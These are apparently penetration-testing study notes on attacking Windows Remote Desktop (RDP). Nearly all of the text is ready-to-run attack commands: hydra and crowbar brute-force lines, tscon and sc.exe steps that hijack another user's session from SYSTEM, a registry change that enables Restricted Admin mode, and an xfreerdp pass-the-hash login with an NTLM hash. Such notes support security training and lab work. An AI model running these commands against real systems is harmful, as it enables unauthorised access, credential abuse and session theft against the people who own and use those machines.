  - rdesktop
 - Remmina


## Attacks 
### Bruteforce
- crowbar 
```shell
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
- hydra
```shell
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

### RDP Session Hijacking
- we need to have `SYSTEM` privileges and use the Microsoft `tscon.exe` binary
- we can use several methods to obtain SYSTEM privileges, such as `PsExec` or `Mimikatz`.
- `Note:` This method no longer works on Server 2019
```shell
# check user sessions
query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM


# hijack
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}

# create a service to hijack
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

# start the sessionhijack service
net start sessionhijack
```


### RDP Security Check
```shell
# install cpan for installing Perl modules
$ sudo cpan
cpan[1]> install Encoding::BER

Fetching with LWP:
http://www.cpan.org/authors/01mailrc.txt.gz
```
A Perl script named `rdp-sec-check.pl` has also been developed by Cisco CX Security Labs that can unauthentically identify the security settings of RDP servers based on the handshakes.

```shell
$ git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
$ ./rdp-sec-check.pl 10.129.201.248
```

### Pass the Hash with RDP
Adding the DisableRestrictedAdmin Registry Key
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```shell
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```


